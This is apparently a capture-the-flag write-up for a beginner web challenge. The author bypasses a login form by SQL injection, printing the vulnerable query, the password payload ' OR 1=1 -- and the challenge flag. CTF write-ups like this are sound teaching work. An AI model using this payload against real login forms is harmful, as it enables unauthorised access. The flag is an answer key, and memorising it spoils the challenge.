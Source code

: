 # Challenge

I really need access to website, but I forgot my password and there is no reset. Can you help?

# Walkthrough/Solution

As the name of the challenge suggests, the website is prone to sql injection. Typing a single quote `'` on either fields shows us the format that the sql query of the database is using: </br>

`select * from users where user = '' and pass = '';`

How do we manipulate the fields such that the query will always return true? There are many methods but in this case, I used this method: </br>

`select * from users where user = 'test' and pass = '' OR 1=1 --';`

What I did here was to enter a random username and close the pass field with a single quote `'` and then execute a OR with a statement that is always true `1=1`. Then I comment then the rest of the line with `--`.

This would be what it looks like when you are typing in the fields. </br>

```
username:test
password:' OR 1=1 --

```

And you get the flag! `be_careful_what_you_let_people_ask_1b3db77df6b116a38db8ceb7c81cb14c`

# Learning Outcome

1) Introduction to SQL Injections
